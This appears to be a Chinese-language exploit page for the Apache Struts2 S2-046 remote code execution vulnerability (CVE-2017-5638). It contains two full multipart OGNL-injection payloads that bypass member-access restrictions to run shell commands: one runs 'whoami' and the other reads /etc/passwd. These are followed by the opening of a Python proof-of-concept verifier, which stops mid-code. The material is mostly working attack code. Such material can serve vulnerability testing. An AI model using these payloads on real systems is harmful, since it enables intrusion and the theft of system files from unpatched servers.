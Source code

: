 ### Payload

#### 执行命令

```java
-----------------------------735323031399963166993862150
Content-Disposition: form-data; name="foo"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}b"
Content-Type: text/plain

x
-----------------------------735323031399963166993862150--
```

#### 读取文件

```java
-----------------------------735323031399963166993862150
Content-Disposition: form-data; name="foo"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}b"
Content-Type: text/plain

x
-----------------------------735323031399963166993862150--
```

### POC

```python
#!/usr/bin/env python3

import random
import string
import requests
    
class S2_046_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-046漏洞,又名CVE-2017-5638漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10',
            'date': '2017-03-19',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.capta = self.get_capta()
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
```